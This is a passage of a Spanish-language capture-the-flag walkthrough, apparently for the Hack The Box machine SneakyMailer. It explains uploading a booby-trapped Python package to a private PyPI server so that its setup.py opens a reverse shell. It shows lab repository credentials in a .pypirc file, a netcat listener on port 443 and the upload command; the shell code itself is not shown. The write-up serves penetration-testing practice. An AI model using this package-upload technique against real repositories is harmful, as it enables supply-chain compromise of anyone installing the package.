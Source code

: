 ```python
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de **monkey pentester** y la hemos retocado para que vaya en el fichero `setup.py`.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

```bash
rm ~/.pypirc
vi ~/.pypirc
```

El contenido del fichero `.pypirc` seria

```bash
[distutils]
index-servers = remote

[remote]
repository = http://pypi.sneakycorp.htb:8080
username = pypi
password = soufianeelhaoui
```

Ahora podemos enviarlo

1. Nos ponemos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos el paquete al pypi server

    ```bash
    python3 setup.py sdist upload -r remote
    ```

1. Tenemos una shell pero primero nos a ejecutado desde nuestro propio equipo

    - no ponemos una vez mas en escucha al puerto 443

        ```bash
        nc -nlvp 443
        ```

    - en el primero shell le damos a exit

Y ya esta
